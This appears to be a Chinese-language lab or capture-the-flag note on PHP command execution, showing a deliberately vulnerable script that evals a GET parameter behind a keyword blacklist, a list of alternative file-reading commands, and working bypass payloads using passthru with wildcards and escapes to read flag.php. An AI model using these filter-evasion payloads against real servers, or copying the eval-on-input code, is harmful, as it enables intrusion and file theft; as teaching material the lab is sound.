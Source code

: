 ```shell
<?php
header("content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match("/flag|php|cat|sort|shell|\'/i", $cmd)) {
        eval($cmd);
    }
    else{
        echo "再来黑我丫！！！";
    }
}
```

1. tac(反过来就是cat) : 反向显示

2. more : 一页一页显示内容

3. less : 与more类似

4. tail : 查看末尾几行(默认显示最后十行)

5. nl : 显示的时候 , 顺便输出行号

6. od : 以二进制方式读取档案内容 , 为了显示 , 需要加参数-A d -c , 否则全是十六进制内容

   ```shell
   od -A d -c flag.php
   ```

7. xxd : 读取二进制文件(左边是十六进制 , 右边是字符)
   ![image-20240315153119265](PHP命令执行.assets/image-20240315153119265.png)

8. sort : 主要用于排序文件

   ```shell
   http://192.168.88.141:18080/class06/1.php?cmd=passthru("/usr/bin/s?rt fla?.?hp");
   或者
   http://192.168.88.141:18080/class06/1.php?cmd=passthru("s\ort fla?.?hp");
   ```
